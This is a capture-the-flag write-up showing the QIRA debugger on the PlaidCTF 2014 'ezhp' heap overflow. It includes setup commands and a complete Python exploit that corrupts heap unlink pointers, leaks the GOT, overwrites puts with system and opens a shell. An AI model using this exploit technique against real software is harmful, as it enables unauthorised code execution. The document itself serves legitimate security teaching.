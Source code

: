 # Introduction #

ezhp was a 200 point heap overflow problem at PlaidCTF 2014. It makes a good example to showcase some of the powers of QIRA. Grab ezhp from https://qira.googlecode.com/git/tests/ctf/ezhp and play along at home!

# QIRA v0.2 Installation #
This writeup was made with version 0.2 of QIRA, so to match this exactly...
```
# 0.2 is really out of date, use 1.0 and skip qira-server
cd ~/
wget -qO- https://qira.googlecode.com/git/releases/qira-0.2.tar.gz | tar zx
cd qira
./install.sh
```

# Getting Started #

Let's start a QIRA wrapped ezhp listening on localhost:2323. You don't really need the socat wrapping now, but it makes exploiting easier.
```
socat TCP-LISTEN:2323,reuseaddr,fork,bind=localhost EXEC:"qira ./ezhp"
```

Now in another screen(1), we'll start an ezhp instance with
```
nc localhost 2323
```

And in one more screen(2), we'll start the qira-server with
```
qira-server
```

In a browser we'll navigate to http://localhost:3002/. And we'll load ezhp in IDA with the plugin installed. Giving us a layout like

![http://wiki.qira.googlecode.com/git/images/ezhp/picture1.png](http://wiki.qira.googlecode.com/git/images/ezhp/picture1.png)

Obviously, QIRA is on the right side. The three blue, red, and yellow numbers at the top are the changelist number, instruction address, and data address respectively.

The bar on the left of the QIRA window represents time, similar to how the IDA bar represents addresses. The program starts at change 0 at the top left of the screen, and so far has run up to change 184. Change 120 is blue because it's the change selected and red because it's the instruction selected.

Notice how the instruction selected in IDA(push %ebp) matches the instruction in the disassembly view. These will stay in sync if you have IDA plugin installed.

# Taking Action #

Okay, now that everything is up and running, let's add 2 notes of size 16, change note 0 to "hello", and print note 0. Now we see

![http://wiki.qira.googlecode.com/git/images/ezhp/picture2.png](http://wiki.qira.googlecode.com/git/images/ezhp/picture2.png)

So I've pushed into the add\_note function with IDA, and selected the instruction that writes back the new note count. This instruction has run twice(the red changes in the timeline @ 313 and 510), which we'd expect since we added 2 notes.

You can see the pending 2 about to be written there in between the register and memory view. Those views reflect the state of the system at the selected change, in this case 510, and not the current state of the system. If I selected change 511 for example, I would see a 02 00 00 00 @ 0x804a04c in the hex editor view.

Also see that I selected data address 0x804a060, this is the first pointer to the note data. In the timeline view, bright yellow indicates when something was stored at this address(312), and dark yellow indicates when this address was read(597, 622, 719). The reads make sense since we changed and printed that note. Clicking on those changes in the timeline will change the current change and the instruction address, as well as bring you there in IDA.

# Exploitation #

The exploit in this problem is fairly obvious once you see change\_note allows you to send any size you want. It's a trivial heap overflow. So let's push in to 0x804c018, change note 0 to a lot of A's, and delete note 1 at 0x804c03c. Looking at the before and after, we see

![http://wiki.qira.googlecode.com/git/images/ezhp/picture3.png](http://wiki.qira.googlecode.com/git/images/ezhp/picture3.png)

Segfault! And the fatal store that killed the program, 0x41414145 <-- 0x41414141! Looks like a standard list unlink, probably at the two addresses @ 0x804c034. Remember, even though the program segfaulted, QIRA is still live, and we can explore that execution trace; for example, clicking before 840 will show the view before I trashed it with A's.

You can see the exploitation plan coming together, use that free unlink to add a fake note with id 2 pointing at the GOT. Then we can print that note to leak the GOT, and use change\_note to change the puts pointer to system. Let's do this in python

```
import socket
import struct

def q(a):
  return struct.pack("I", a)

def recv_until(st):
  ret = ""
  while st not in ret:
    ret += s.recv(8192)
  return ret

s = socket.create_connection(("localhost", 2323))
print recv_until("option")

s.send("1\n16\n1\n16\n")  # create two notes of size 16
print recv_until("option")

s.send("3\n0\n100\n")     # change note 0 with size 100
print recv_until("your data.")

# 0x0: "/bin/sh\x00"
# 0x8: next 0x10 bytes is padding
# 0x18: keep the 0x25 around cause why not
# 0x1c: target fflush in the GOT @ 0x804A004 (trashes 0x804A00C)
# 0x20: write 0x804A004 to 0x804a068(note slot 2)
s.send("/bin/sh\x00"+"a"*0x10+q(0x25)+q(0x804A004)+q(0x804a068-4))
print recv_until("option")

s.send("2\n1\n")         # delete note 1 to trigger the unlink
print recv_until("option")

s.send("4\n2\n")         # print note 2 to dump the GOT @ 0x804A004 = fflush
dat = recv_until("option")
fflush = struct.unpack("I", dat.split("id.\n")[1][0:4])[0]
print hex(fflush)

```

![http://wiki.qira.googlecode.com/git/images/ezhp/picture4.png](http://wiki.qira.googlecode.com/git/images/ezhp/picture4.png)

Here is the QIRA view post run, and sure enough, the python prints 0xf66747a0, which is the address @ 0x804A004.

# Finishing up #

```
#   95: 000657a0   257 FUNC    WEAK   DEFAULT   12 fflush@@GLIBC_2.0
# 1422: 0003f430   141 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0

system = fflush - 0x657a0 + 0x3f430

s.send("3\n2\n8\n")     # change note 2(the GOT) with size 8
print recv_until("your data.")
s.send(q(fflush)+q(system))  # overwrite fflush with fflush and puts with system
# puts is now broken, replaced with calls to system
# so we don't recv

s.send("4\n0\n")        # "print" note 0, which is "/bin/sh\x00"

print " ** SHELL ** "
import telnetlib
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

![http://wiki.qira.googlecode.com/git/images/ezhp/picture5.png](http://wiki.qira.googlecode.com/git/images/ezhp/picture5.png)
